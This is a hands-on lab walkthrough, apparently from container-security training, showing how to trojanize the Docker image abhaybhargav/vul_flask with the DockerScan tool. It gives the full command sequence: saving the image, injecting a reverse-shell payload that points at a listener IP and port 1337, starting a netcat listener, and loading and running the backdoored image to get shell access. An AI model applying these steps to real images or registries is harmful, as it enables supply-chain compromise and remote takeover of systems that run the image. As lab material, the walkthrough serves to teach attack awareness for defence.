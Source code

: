 # **Trojanized Docker Images - DockerScan**

### *A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container*

### **Lab Image : `Containers`**

---

#### Step 1:

* Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Install `dockerscan`

```commandline
export LC_CTYPE=en_US.UTF-8 && pip3 install dockerscan
```

* Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

---

#### Step 2:

* Set the necessary environment variables for `dockerscan` to run

```commandline
export LC_ALL=C.UTF-8
```
```commandline
export LANG=C.UTF-8
```

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Trojanize the saved docker to create a `.tar` file

> **EXAMPLE**: `dockerscan image modify trojanize abhaybhargav-vul_flask -l 104.1.1.1 -p 1337 -o abhaybhargav-vul_flask-trojanized`

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

---

#### Step 3:

* Once the command on **Step 2** has been run, a `netcat` command is returned. Run the command in another tab or use `tmux` to split the terminal.

> **EXAMPLE**: `nc -v -k -l 104.1.1.1 1337`

```commandline
nc -v -k -l $(serverip) 1337
```

* Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

---

#### Step 4:

* Confirm that the trojanized image has been loaded

```commandline
docker images
```

* When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

---

#### Step 5:

* Stop/Close the `reverse-shell` tab

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
